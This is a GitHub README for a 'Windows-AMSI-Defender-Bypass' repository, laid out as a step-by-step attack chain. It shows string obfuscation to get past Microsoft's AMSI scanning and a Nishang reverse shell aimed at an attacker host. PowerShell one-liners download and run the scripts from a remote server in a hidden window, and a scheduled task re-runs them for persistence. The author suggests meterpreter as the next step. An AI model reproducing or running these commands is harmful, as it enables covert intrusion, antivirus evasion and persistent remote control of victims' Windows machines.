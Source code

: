 # Windows-AMSI-Defender-Bypass

::::Bypassing AMSI and getting a Reverse Shell
------------------------------------------------------------------------------------

To make all these things work, I used a script that disables the AMSI:
From : https://amsi.fail

You can generate your own, but make sure it works.
-------------------------------------------------------------------------------------
AMSI fail script,
-----------------
fail.ps1:
---------
some of those generated scripts uses the "Amsi Utils", but it gets caught by the AMSI, so i defined it outside of the code
like this:

$am='Amsi'+'U'+'til'+'s' 

--------------------------------------------------------------------------------------------
Getting the shell:
-------------------
nish.ps1: 
-----------
The TCP nishang that we always use from: https://github.com/samratashok/nishang/tree/master/Shells

Definning this at the end of the script:

Invoke-PowerShellTcp -Reverse -IPAddress example.attacker.net -Port 443 

------------------------------------------------------------------------------------------------
Running all in one:
-------------------
trigger.ps1:  
------------
This script is going to be the trigger for the 2 invokes(fail.ps1, nish.ps1), it also defines the $am variable for the fail.ps1:

$n = (new-object net.webClient);$am='Amsi'+'U'+'til'+'s';iex ($n).DownloadString('http://example.ddns.net:80/fail.ps1');iex ($n).DownloadString('http://example.ddns.net:80/nish.ps1')

------------------------------------------------------------------------------------------------------------------------------------------------

Finally we will need to "Invoke-Expression" the trigger:
--------------------------------------------------------------
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')

Every child process running from this powershell session is going to run without the AMSI, so could easily run a meterpreter from this, but make sure to obfucate it because meterpreter is way more intrusive.


---------------------------------------------

---------------------------------------------

To add an extra
-----------------
We can make it all run as many time as we want by scheduling these Invokes-Expression's:

sched.ps1:
----------
You can modify this to run whenever you want, in (New-TimeSpan -Minutes 'minutes between each run').



In this case you are going to run 2 Invokes:
                    
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/trigger.ps1')
powershell -windowstyle hidden iex(new-object net.webclient).DownloadString('htt'+'p:/'+'/example.ddns.net:80/sched.ps1')

You can make only one call by creating another .ps1

These scripts are going to be in this repository: 
----------------------------------------
https://github.com/Filiplain/Windows-AMSI-Defender-Bypass

Make sure to define your IP or Domain into the files
And host a server where all the files are located


Invokes Map:
------------
                                                                 

                trigger.ps1                    
              /            \
          fail.ps1   ;  nish.ps1
                                                       



